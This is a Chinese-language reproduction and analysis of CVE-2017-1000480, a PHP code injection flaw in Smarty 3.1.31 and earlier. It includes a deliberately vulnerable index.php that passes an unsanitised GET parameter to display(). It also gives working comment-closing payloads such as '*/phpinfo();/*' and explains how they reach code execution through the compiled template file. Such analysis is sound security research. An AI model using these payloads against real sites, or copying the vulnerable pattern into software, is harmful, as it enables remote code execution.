


# （CVE-2017-1000480）Smarty<=3.1.31 命令执行RCE

## 一、漏洞简介

在不清理模板名称的自定义资源上调用fetch（）或display（）函数时，3.1.32之前的Smarty 3容易受到PHP代码注入的攻击。

## 二、漏洞影响

Smarty<=3.1.31、3.1.32-dev

## 三、复现过程

### 1、搭建环境

测试环境为： PHP5.6.40+Apache2+Smarty3.1.31+Debian9

```
➜  html mkdir smarty
➜  html cd smarty
➜  smarty mkdir cache compile templates
➜  smarty composer require smarty/smarty -v
➜  smarty sed -i -e 's/\^3.1/3.1.31/g' composer.json
➜  smarty composer update
➜  smarty sudo chmod -R 777 . 
```

/var/www/html/smarty/index.php 如下：

```
<?php
require './vendor/autoload.php';

class Smarty_Resource_Widget extends Smarty_Resource_Custom

{

protected function fetch($name, &$source, &$mtime)

{

$template = “Smarty <=3.1.31 RCE (CVE-2017-1000480)”;

$source = $template;

$mtime = time();

return ‘mochazz’;

}

}

$smarty = new Smarty();

$smarty->setCacheDir(‘cache’);

$smarty->setCompileDir(‘compile’);

$smarty->setTemplateDir(‘templates’);

$my_security_policy = new Smarty_Security($smarty);

$smarty->enableSecurity($my_security_policy);

$smarty->registerResource(‘username’, new Smarty_Resource_Widget());

$smarty->display(‘username:’.$_GET[‘mochazz’]); `?>` 
```

### 2、漏洞分析

具体攻击 payload 如下：

```
http://0-sec.org/index.php?mochazz=*/phpinfo();/* 
```


我们直接从 display 方法开始跟进，会发现其最终会调用 render 方法。在 render 方法分别进行了：生成compile文件名、写入compile文件并包含两个操作。



在第一个操作：生成compile文件名时，我们传入 display 的参数会影响最终的 compile 文件名。例如下面两个 payload 生成的文件名是不一样的。

```
# 代码：$smarty->display('username:'.$_GET['mochazz']);

# payload1：[http://0.0.0.0/smarty/index.php?mochazz=](http://0.0.0.0/smarty/index.php?mochazz=)*/phpinfo();/*

4f97532c32c10229713a39421c918cf16663bf6e_0.username.*.php

# payload2：[http://0.0.0.0/smarty/index.php?mochazz=*/phpinfo();//](http://0.0.0.0/smarty/index.php?mochazz=*/phpinfo();//) `1e95a2d156a7edd4f6130643849a588dce4acb27_0.username.phpinfo();.php` 
```

这是因为 compile 文件名中，有一部分由 basename($source->name) 决定，这部分就是我们传入的 mochazz 参数。使用上面第一个 payload 时，文件名就会包含 * 号。在 Linux 系统下，文件名允许包含 * 号，但是 Windows 却不允许，这也是网络上部分文章说这个漏洞无法在 Windows 平台下利用。但是我们使用第二个 payload ，两个平台就都可以利用。

我们接着看第二个操作：写入 compile 文件并包含。首先，写入 compile 文件中的内容包含模板路径（即下图最后一行代码 $_template->source->filepath ），这个模板路径就是我们传入 display 方法的参数。虽然该参数被注释包裹，但是我们可以用 */ 闭合。写入 compile 文件，程序就开始包含该文件，最终导致代码执行（下图第137行）。

